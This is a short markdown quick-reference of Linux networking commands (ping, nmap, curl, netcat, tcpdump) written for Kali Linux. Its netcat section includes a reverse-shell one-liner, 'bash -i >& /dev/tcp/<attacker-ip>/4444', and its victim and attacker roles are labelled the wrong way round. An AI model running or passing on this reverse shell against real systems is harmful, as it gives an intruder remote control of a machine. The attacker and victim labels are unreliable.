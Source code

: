 # **Networking Commands - Linux Quick Reference**

## Table of Contents
- [Network Utilities](#network-utilities)
- [Netcat Commands](#netcat-commands)
- [Network Troubleshooting](#network-troubleshooting)

Recommended OS: Kali Linux

---

## Network Utilities

- **`ping`**: Test connectivity to a host.  `ping <hostname or ip>`
- **`ifconfig`**: Display or configure network interfaces.  `ifconfig`
- **`netstat`**: Show network connections and statistics.  `netstat -tuln`
- **`nmap`**: Scan network for hosts and open ports.
  ex. `nmap <ip>` or `nmap 192.168.1.1-20` or `nmap 192.168.1.0/24`
- **`curl`**: Transfer data to and from a server (HTTP, FTP).  `curl http://example.com/file.zip`
- **`route`**: View or modify the routing table.  `route -n`

---

## Netcat Commands

- **Listen on port**:  `nc -lvp 1234`
- **Connect to host (chat, etc.)**:  `nc <hostname or IP> 1234`
- **Send file**:  
  **1. Receiver opens port and preps redirect**:  `nc -l 12345 > received_file.txt`  
  **2. Sender connects and redirects file to receiver ip**:  `nc <receiver_ip> 12345 < my_file.txt`
- **Reverse Shell**:  
  **1. Victim opens port**:  `nc -lvp 4444`  
  **2. Attacker**:  `bash -i >& /dev/tcp/<attacker-ip>/4444 0>&1`  

---

## Network Troubleshooting

- **`dig`**: Query DNS.  `dig example.com`
- **`tcpdump`**: Capture network traffic.  `sudo tcpdump -i eth0` or `sudo tcpdump src host <ip>`
- **`hostname`**: Show or set hostname.  `hostname`

---

*Created by MD Harrell*  
For more info, visit the [Kali Linux Docs](https://www.kali.org/docs/).
